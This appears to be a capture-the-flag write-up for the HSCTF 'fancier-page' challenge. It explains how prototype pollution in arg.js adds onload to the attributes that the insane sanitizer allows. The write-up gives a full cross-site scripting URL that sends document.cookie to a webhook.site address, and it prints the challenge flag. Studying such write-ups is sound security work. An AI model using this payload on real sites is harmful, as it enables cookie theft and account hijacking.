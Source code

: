 File: [fancier-page.zip](https://hsctf-10-resources.storage.googleapis.com/uploads/f6f6d7bf1310685e72f3eac9cdab12d618909761234e82f7a61f6832c6beddc7/fancier-page.zip)

## Solution

The page uses two packages [arg.js](https://github.com/stretchr/arg.js) and [insane](https://github.com/bevacqua/insane/) both which have security vulnerabilities. Use [this](https://github.com/BlackFan/client-side-prototype-pollution/blob/master/pp/arg-js.md) we can pollute the base prototype and add properties too it. This won't let us add elements to the ``allowedTags`` array because prototype can't change arrays, but we can add elements to the ``allowedAttributes`` element. We can create an element ``img`` with a string value. Looking at the insane source [code](https://github.com/bevacqua/insane/blob/master/sanitizer.js#L43) we see that the two methods called on the ``img`` element value will be ``concat`` and ``indexOf``. Both of these methods are present on strings so we can use that. Making the string value equal to ``idonloadsrc`` we can use attributes ``id``, ``onload``, and ``src``. The final url will be:

```
http://fancier-page.hsctf.com/display.html?content=%3Cimg%20id%3D%22test%22%20src%3D%22https%3A%2F%2Fupload.wikimedia.org%2Fwikipedia%2Fen%2Fa%2Fa9%2FExample.jpg%22%20onload%3D%22fetch(%27https%3A%2F%2Fwebhook.site%2F359d48f7-538e-4150-bb48-e961695ba4ad%3F%27%2Bdocument.cookie)%22%3E&background_color=%23ffffff&color=%23000000&font=Helvetica&font_size=16#__proto__[img]=idsrconload
```

Using webhook.site you can handle network requests and get the flag: ``flag{prototype_pollution_kills_thousands_of_websites_each_year}``